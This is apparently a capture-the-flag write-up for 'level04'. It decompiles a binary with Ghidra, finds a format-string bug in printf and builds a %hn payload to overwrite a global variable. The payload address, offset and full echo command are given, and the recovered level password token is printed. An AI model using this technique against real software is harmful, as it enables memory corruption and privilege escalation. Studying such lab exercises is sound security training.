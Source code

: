 # level04

1. Decompilation with Ghidra

    - Decompile the `level4` binary with Ghidra
    - The binary contains a function `n()` that:
      - Calls `fgets()` to read 512 bytes of user input (safe)
      - Calls `p()` that:
        - Calls `printf()` with user input as format string (vulnerable!)
      - Checks if global variable `m` equals `0x1025544` (16 930 116)
      - If true, calls `/bin/cat /home/user/level5/.pass")`

2. Analysis of the vulnerability

    The decompiled code is:

    ```c
    void n(void)

    {
        char local_20c [520];
  
        fgets(local_20c,0x200,stdin);
        p(local_20c);
        if (m == 0x1025544) {
            system("/bin/cat /home/user/level5/.pass");
        }
        return;
    }
    ```

    The vulnerability:
    - **Format string attack** via `printf(local_20c)` without format specifier
    - We need to modify the global variable `m` to be equal to `0x1025544` (16 930 116)
    - Using `%hn` format specifier, we can write to arbitrary memory addresses

3. Finding the address of global variable m

    Using objdump to find the symbol address:

    ```bash
    gdb ./level4
    info address m
    ```

    Symbol "m" is at **0x8049810** in a file compiled without debugging.
    (so "m+2" is at **0x8049812**)

4. Finding the format string offset

    Test to find where our input appears on the stack:

    ```bash
    echo "BBBB %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
    # Output BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242
    ```

    We see `42424242` (AAAA in hex) at the **12th position**.

5. Exploit construction

    Strategy:

    Use 2-step writing with **%hn** to write the large value **0x1025544**

    Place addresses of m and m+2 at the beginning of the buffer

    Use format specifiers to control the byte counter

    Format string breakdown:
    ```
    [\x12\x98\x04\x08][\x10\x98\x04\x08][%250x%12\$hn][%21570x%13\$hn]
    |                 |                 |             |
    |                 |                 |             +-> Write 21570 + 258 = 21828 (0x5544) to address at offset 13 (m)
    |                 |                 +-> Write 250 + 8 = 258 (0x0102) to address at offset 12 (m+2)
    |                 +-> Address of m (offset 13)
    +-> Address of m+2 (offset 12)
    ```
    Total bytes calculation:

        Initial: 8 bytes (2 addresses)

        After %250x: 8 + 250 = 258 = 0x0102 written to m+2

        After %21570x: 258 + 21570 = 21828 = 0x5544 written to m

    Final value in m: 0x01025544 = 0x1025544

6. Exploitation

    ```bash
    echo -e "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12\$hn%21570x%13\$hn" | ./level4
    ```

7. Token discovered

    The token is: `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
